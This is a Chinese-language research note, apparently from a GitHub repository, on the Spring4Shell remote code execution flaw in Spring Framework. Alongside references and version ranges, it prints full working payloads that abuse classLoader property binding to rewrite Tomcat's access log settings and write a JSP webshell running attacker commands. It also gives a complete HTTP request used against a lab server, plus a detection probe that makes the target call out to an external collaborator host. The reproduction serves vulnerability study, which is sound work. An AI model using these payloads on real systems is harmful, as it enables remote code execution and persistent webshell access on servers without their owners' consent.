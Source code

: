 参考：
- [Spring 框架漏洞集合](https://misakikata.github.io/2020/04/Spring-%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9E%E9%9B%86%E5%90%88/)
- [Spring 全家桶各类 RCE 漏洞浅析](https://paper.seebug.org/1422/#_3)
- [spring actuator restart logging.config rce](https://landgrey.me/blog/21/)
- https://github.com/LandGrey/SpringBootVulExploit
- [Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)
- [CVE-2021-22060: Additional Log Injection in Spring Framework (follow-up to CVE-2021-22096)](https://tanzu.vmware.com/security/cve-2021-22060)
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-22965.yaml
- https://github.com/ax1sX/SpringSecurity


## Spring RCE
影响范围：
Sprinboot
-  [2.5,2.5.6.SEC02)

Spring Framwork
- 5.3.0 to 5.3.17
- 5.2.0 to 5.2.19
- Older, unsupported versions are also affected

### 无损检测
```
?class.module.classLoader.resources.context.configFile=http://j0kz86tl0wpygo1qh2lud49vvm1fp4.burpcollaborator.net/spring4shell&class.module.classLoader.resources.context.configFile.content.aaa=xxx
```
通过设置content，实现发起http请求的目的。

- https://xeldax.top/article/spring4shell_study

### FAQ

#### 为啥只能JDK9
> JDK1.8下测试，class bean下没有module bean，导致后续无法利用，如果是class.classLoader则会被黑名单拦截。

#### 为啥springboot不行
> JDK9 springboot下的，和springMVC的classloader不一样，是AppClassLoader，没有getResources()。springMVC是ParallelWebappClassLoader

## PoC
- https://github.com/craig/SpringCore0day/blob/main/exp.py
- https://github.com/lunasec-io/Spring4Shell-POC/blob/master/exploit.py


```
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

准备复现，
刚从tomcat官网下了个tomcat-8.5.78: https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.78/bin/apache-tomcat-8.5.78-windows-x64.zip

结果失败了，
![image](https://user-images.githubusercontent.com/30398606/161372147-431252a3-0a8e-472d-8ef9-1212d0781f1a.png)

```
Invalid property 'class.module.classLoader.resources' of bean class [java.lang.Module]: Could not instantiate property type [org.apache.catalina.WebResourceRoot] to auto-grow nested property path; nested exception is org.springframework.beans.BeanInstantiationException: Failed to instantiate [org.apache.catalina.WebResourceRoot]: Specified class is an interface
```

很快啊，原来是：
> Effectively disable the WebappClassLoaderBase.getResources() method as it is not used and if something accidently exposes the class loader this method can be used to gain access to Tomcat internals.

- https://tomcat.apache.org/tomcat-8.5-doc/changelog.html

所以目前的payload对于tomcat作为web容器的利用方式下，影响范围是：tomcat < 8.5.78

那就下载8.5.77:
- https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77-windows-x64.zip

tomcat换了之后依然没有成功。
![image](https://user-images.githubusercontent.com/30398606/161372361-0c85d1ca-1a4a-46b1-862a-7c7c19156635.png)
可能因为我是直接在windows上双击startup.bat导致日志直接输出到控制台，而没有机会写入到文件？
原来是使用这个：https://github.com/craig/SpringCore0day/blob/main/exp.py
导致有个引号的bug吧。
![image](https://user-images.githubusercontent.com/30398606/161375232-2b243cef-2e90-415a-9320-b8f894b3ffef.png)


使用这个成功了：
https://github.com/lunasec-io/Spring4Shell-POC
```
POST /java-sec-code-1.0.0/login3 HTTP/1.1
Host: 192.168.183.129:8088
User-Agent: python-requests/2.20.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 698

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

![image](https://user-images.githubusercontent.com/30398606/161375660-ac8e4630-18e8-4046-ae9c-338b7a2110a8.png)


对应代码：
```java
    @RequestMapping("/login2")
    public void login2(@RequestBody User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }


    @RequestMapping("/login3")
    public void login3(User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }
```
其中login2这个endpoint要求请求的Content-Type是json类型。

注意在tomcat的conf/server.xml中必须要有：AccessLogValve这个Valve。
### 无损检测

![image](https://user-images.githubusercontent.com/30398606/169263864-c581fd76-2fc5-453e-a721-c971b8250cbd.png)
```
/java-sec-code-1.0.0/login3?class.module.classLoader.resources.context.configFile=http://j0kz86tl0wpygo1qh2lud49vvm1fp4.burpcollaborator.net/spring4shell&class.module.classLoader.resources.context.configFile.content.aaa=xxx&username=test
```


### Ref
- [CVE-2010-1622: Spring Framework execution of arbitrary code](https://seclists.org/fulldisclosure/2010/Jun/456)
- [Spring Framework - Arbitrary code Execution](https://www.exploit-db.com/exploits/13918)
- [Spring Core RCE 0day｜文末报告附件](https://mp.weixin.qq.com/s/P-NEJzUUjIyemkSe_RbicQ)
- https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529
